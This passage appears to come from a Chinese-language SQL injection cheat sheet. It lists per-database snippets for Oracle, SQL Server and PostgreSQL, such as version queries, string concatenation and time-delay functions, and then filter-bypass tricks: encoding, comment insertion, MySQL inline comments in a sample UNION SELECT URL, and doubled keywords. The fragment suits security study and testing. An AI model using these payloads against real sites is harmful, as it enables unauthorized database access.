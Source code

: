 #### Oracle

- ##### 字符串连接

  - ##### 'a\'\|\|\'oracle\' \--

  - ##### SELECT CONCAT(\'some\',\'string\')

- ##### version

  -   SELECT banner FROM v\$version

  -   SELECT banner FROM v\$version WHERE rownum=1

#### SQLServer

- WAITFOR WAITFOR DELAY \'00:00:10\';

- SERVERNAME SELECT @@SERVERNAME

- version SELECT @@version

- ##### 字符串连接

  -   SELECT \'some\'+\'string\'

- ##### 常量

  -   @@pack_received

  -   @@rowcount

#### PostgreSQL

-   sleep pg_sleep(1)

# 6.绕过技巧

- ##### 编码绕过

  -   大小写

  -   url编码

  -   html编码

  -   十六进制编码

- ##### 注释

  - unicode编码
  - // \-- \-- + \-- - \# /\*\*/ ;%00
  - 内联注释用的更多，它有一个特性 /!\*\*/ 只有 MySQL 能识别
  - e.g. index.php?id=-1 /\*!UNION\*/ /\*!SELECT\*/ 1,2,3

- ##### 只过滤了一次时

  -   union=\> ununionion

- ##### 相同功能替换
